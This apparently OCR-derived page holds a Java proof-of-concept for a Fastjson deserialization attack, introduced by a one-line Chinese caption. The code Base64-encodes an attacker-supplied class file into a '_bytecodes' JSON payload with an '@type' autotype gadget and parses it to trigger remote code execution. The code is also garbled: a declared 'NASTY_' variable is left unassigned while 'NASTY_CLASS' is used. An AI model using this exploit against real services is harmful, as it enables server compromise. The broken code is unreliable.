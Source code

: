 POC生成脚本如下：

```json
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;


import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;


public class Poc {

    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());

    }

    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = "Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_;
        String text1 = "{\"@type\":\"" + NASTY_CLASS +
                "\",\"_bytecodes\":[\""+evilCode+"\"]," +
                "'_name':'a.b'," +
                "'_tfactory':{ }," +
                "\"_outputProperties\":{ }}\n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
    }

    public static void main(String args[]){

        try {
            test_autoTypeDeny();
        } catch (Exception e) {
        }
    }
}
```
